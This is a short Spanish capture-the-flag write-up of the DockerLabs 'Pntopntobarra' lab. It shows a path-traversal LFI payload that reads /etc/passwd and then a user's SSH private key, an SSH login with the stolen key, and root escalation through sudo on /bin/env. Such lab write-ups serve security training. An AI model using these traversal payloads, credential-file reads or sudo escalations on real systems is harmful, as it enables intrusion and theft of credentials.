

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/pntopntobarra/index.html · generator: mkdocs

# Pntopntobarra

22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))

En la web, se encuentra este trozo de código para el botón:
*button onclick="location.href='ejemplos.php?images=./ejemplo1.png'">Ejemplos de computadoras infectadas</button*
Es un potencial vector de LFI:
Escribimos en la URL
`http://172.17.0.2/ejemplos.php?images=../../../../../../../etc/passwd`
Vemos el contenido por lo que sí es un LFI ✔
Vemos un usuario
***home/nico:/bin/bash***
quizás este usuario tenga acceso SSH mediante clave y he ido a ver si podía leerla. Efectivamente aquí la tenemos.
Buscamos en:
`http://172.17.0.2/ejemplos.php?images=/home/nico/.ssh/id_rsa`

![](../../assets/img/Pasted_image_20251011162410.png)

Ahora, creamos un archivo que contenga el ID cifrado del usuario SSH *id_rsa_nico*
Nos conectamos con ssh pasandole la private key de nico
`ssh nico@172.17.0.2 -i id_rsa_nico`
**nico**

## Escalada

*(ALL) NOPASSWD: /bin/env* -> GTFOBINS
`sudo -u root env /bin/bash`
**root**
